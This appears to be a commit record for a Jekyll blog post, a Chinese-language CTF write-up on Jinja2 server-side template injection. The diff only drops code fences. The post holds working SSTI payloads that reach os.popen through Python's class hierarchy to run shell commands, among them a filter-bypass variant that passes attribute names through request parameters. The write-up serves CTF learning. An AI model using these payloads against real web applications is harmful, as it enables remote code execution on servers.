

Before and after one commit to AirGoldenFish/airgoldenfish.github.io, a Jekyll site: the page built from _posts/2020-12-22-SSTI.md, in a window 1280 px wide and 1400 px high, scrolled down 563 px. Shown: the top 593 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-22-SSTI.md

````diff
--- a/_posts/2020-12-22-SSTI.md
+++ b/_posts/2020-12-22-SSTI.md
@@ -19,11 +19,9 @@ tags:
 攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）
 这道题什么都没有过滤
 ls的payload:
-```python
 {% raw %}
 {{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
 {% endraw %}
-```
 为了防止忘了，还是把每个指令的作用记录一下
 ```
 __class__返回参数类型	().__class__就返回了tuple类型
@@ -54,15 +52,11 @@ __import__("os")加载os
 # XCTF mine1_1
 这道题大括号里过滤了`_` `[]` `''` `""`以及`args`
 如果只过滤`[]`的话，payload长这样：
-```
 {% raw %}
 {{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
 {% endraw %}
-```
 因为又过滤了下划线，payload长这样：
-```
 {% raw %}
 {{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
 {% endraw %}
-```
 `args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
````
